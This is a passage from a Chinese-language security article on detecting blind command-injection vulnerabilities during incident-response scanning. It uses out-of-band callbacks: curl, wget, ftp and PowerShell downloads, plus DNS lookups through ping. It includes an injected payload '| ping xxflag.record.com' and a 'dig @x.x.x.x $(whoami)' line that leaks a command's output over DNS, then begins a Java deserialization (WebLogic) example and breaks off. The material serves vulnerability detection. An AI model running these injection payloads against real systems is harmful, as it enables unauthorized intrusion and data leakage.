 这个得好好说一下，我相信很多同学都懂得在命令执行无法回显的时候借用类似 python -m SimpleHTTPServer 这样的环境，采用回连的检测机制来实时监控访问日志。&#42;nix 系统环境下一般是使用 curl 命令或者wget 命令，而 windows 系统环境就没有这么方便的命令去直接访问一个链接，我之前常用的是 ftp 命令和 PowerShell 中的文件下载来访问日志服务器。现在，有了一个比较通用的做法同时兼顾 *nix 和 windows 平台，那就是 ping 命令，当 ping 一个域名时会对其进行一个递归 DNS 查询的过程，这个时候就能在后端获取到 DNS 的查询请求，当命令真正被执行且平台收到回显时就能说明漏洞确实存在。
  
```
  
payload: "... | ping xxflag.record.com ..."
  
condition: {xxflag.record.com LOG} in DNS queries LOGs
  
```
  
![vul11](../pictures/vul11.png)
  
通过这几个 "间接判断" 的示例，相信大家也大概了解了在漏洞无回显的情况下如何进行扫描和检测了。更多的无回显 Payloads 可以通过 http://ceye.io/payloads 进行查看。也可以直接 dig @x.x.x.x  $(whoami) 这样如果在 dns解析服务器上有收到请求，则表示命令已经执行了。
  

  
## 0x03 应急实战举例
  
原理和例子说了这么多，也该上上实际的扫描检测案例了。
  
### Java 反序列化（通用性举例，ftp/ping）
  
首先说说 15 年底爆发的 Java 反序列化漏洞吧，这个漏洞应该算得上是 15 年 Web 漏洞之最了。记得当时应急进行扫描的时候，WebLogic 回显 PoC 并没有搞定，对其进行扫描检测的时候使用了回连的方式进行判断，又因为待测目标包含 *nix 和 windows 环境，所以是写了两个不同的 Payloads 对不同的系统环境进行检测，当时扫描代码的 Payloads 生成部分为：
  
![vul12](../pictures/vul12.png)
  
### i. *nix
  